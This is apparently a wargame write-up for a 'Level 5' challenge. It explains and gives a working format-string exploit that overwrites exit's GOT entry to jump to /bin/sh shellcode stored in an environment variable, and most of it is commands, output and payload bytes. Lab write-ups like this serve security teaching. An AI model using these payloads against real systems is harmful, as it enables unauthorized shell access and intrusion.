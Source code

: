 # Level 5

## the code
the program reads 100 chars on stdin and stores them in a size 100 buffer.
Upercases are then converted to lowercases and the result printed with 
an unsecure printf(s). A call to exit follows.

## idee:
replace exit by our shellcode in the Global offset Table. We have to be carefull not having values between 64 and 90 in our injection code. We can't them put directly our shellcode in the string. We will then put it
in a env variable and make the GOT address point to it.

### printf args offset
```sh
$ python -c 'print "AAAA" + ".%08x" * 12' | ./level05
aaaa.00000064.f7fcfac0.f7ec3add.ffffd69f.ffffd69e.00000000.ffffffff.ffffd724.f7fdb000.61616161.3830252e.30252e78
```
'a' is 0x61 and the offset is 10.


### exit GOT address
```sh
$ objdump -R ./level05

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```
exit address stored at 08 04 97 e0 (no values between 64 (\x41) and 90 (\x5a))
cut in two addresses: 080497e0 and 080497e2




### shellcode in an env variable
```sh
$ cd /tmp
$ vim gev.c
$ gcc -m32 gev.c
$ export OPLA=`python -c 'print("\x90" * 50 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
$ ./a.out
OPLA will be near 0xffffdecf
```

ffff decf

| format | low |    high |
| :----: | :--: | -----: |
|  hex   | decf | ffff  |
|  dec   | 57039 | 65535  |
| offset |  -8  |  -57039 |
| magic  | 57031 |  8496 |


to reach the middle of the slope we add 24

| format | low   |   high |
| :----: | :--:  | -----: |
|  hex   | decf  | ffff   |
|  dec   | 57039 | 65535  |
| slope  | + 24  |  --    |
| dec    | 57063 | 65535  |
| offset |  -8   | -57063 |
| magic  | 57055 |   8472 |

## the hack
080497e0 and 080497e2
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57055x%10$hn" + "%8472x%11$hn")' ; cat) | ./level05
